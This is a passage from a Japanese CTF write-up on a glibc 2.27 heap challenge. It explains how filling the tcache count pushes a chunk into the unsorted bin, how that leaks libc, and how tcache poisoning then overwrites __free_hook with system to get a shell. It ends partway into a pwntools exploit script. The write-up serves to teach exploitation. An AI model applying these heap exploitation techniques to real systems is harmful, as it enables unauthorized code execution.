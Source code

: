 ```
```
Exploitコード中では面倒なのでサイズヘッダ部分を連打しているだけだがサイズヘッダが無事に出来てしまえば特に問題はない。

### tcacheを満杯にさせる

無事にチャンクが出来たのでここをfreeしたい、というわけで[HSCTF 6 - Aria Writer v3](/cWZap97rRoySNQIVhKluXw)同様にtcache poisoningで次に確保される領域がここを指すようにする(`p -> p -> ...`から`p -> leak + 0x60`にして2回mallocする)。そしてfreeすれば無事にUnsorted Binに格納され...ない。これは当然でtcacheはサイズ0x420未満のチャンクなら該当サイズのtcacheが空いている限り放り込む。
tcacheに繋ぐことが出来るチャンクは7つまでであり、この判定はカウンタによって行われる。ということは実際に繋がっているかどうかはともかく7回freeをしてカウンタを増やしてしまえば以後tcacheには繋がれなくなる。
そして8回目のfree時にもうtcacheには入らない上にfastbinに入るサイズでも無いのでUnsorted Bin送りになる、長かった。

### いつもの

というわけでこれまでのWriteup同様`main_arena.top`に対応するアドレスを読んで、オフセットを引いてlibc leakし、後はいつものtcache poisoningで`__free_hook`を`system`に書き換えてシェルを起動する。

## Code

```python
from pwn import process, ELF, p64, u64


def _select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def add(s, data=b"junk"):
    _select(s, b"1")
    s.recvuntil(b"Input memo > ")
    s.sendline(data)


def show(s):
    _select(s, b"2")
    return s.recvline().rstrip()


def delete(s):
    _select(s, b"3")


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    s = process("./one", env={"LD_PRELOAD": "./libc-2.27.so"})

    elf = ELF("./one")
    libc = ELF("./libc-2.27.so")

    arena_libc = 0x3ebc40
    free_hook_libc = libc.symbols["__free_hook"]
    system_libc = libc.symbols["system"]

    # heap leak
    add(s)

```
